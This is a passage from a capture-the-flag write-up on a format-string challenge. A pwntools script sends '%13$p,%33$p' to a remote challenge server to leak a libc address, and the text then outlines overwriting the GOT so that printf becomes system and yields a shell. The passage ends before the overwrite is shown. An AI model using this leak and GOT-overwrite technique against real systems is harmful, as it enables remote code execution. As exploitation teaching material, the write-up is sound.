

```py
from pwn import *

context.binary = exe = ELF("./fmt_2", checksec=False)

# p = process(exe.path)
p = remote("103.77.175.40", 6111)

# Leak libc
p.sendlineafter(b"Do you have anything to tell us?: ", b"%13$p,%33$p")
p.recvuntil(b"You said: ")
# leaked_libc = int(p.recvline()[:-1], 0)
leaked_libc = p.recvline().split(b",")
__libc_start_call_main_ret = int(leaked_libc[0], 0)
log.info(hex(__libc_start_call_main_ret))
```

Output

```bash
$ python exploit.py
[+] Opening connection to 103.77.175.40 on port 6111: Done
[*] 0x7dc59ab2e1ca
[*] Closed connection to 103.77.175.40 port 6111
```

Found `libc`.



Patch binary using `pwninit`.

Now come the main idea. We need to overwrite `GOT`. `GOT` contains the address of libc function like `puts`, `printf`, `fgets`.

Example:

```c
printf("/bin/bash")
```

If we can overwrite `GOT` to change `printf` to `system`, the program become.

```c
system("/bin/bash")
```

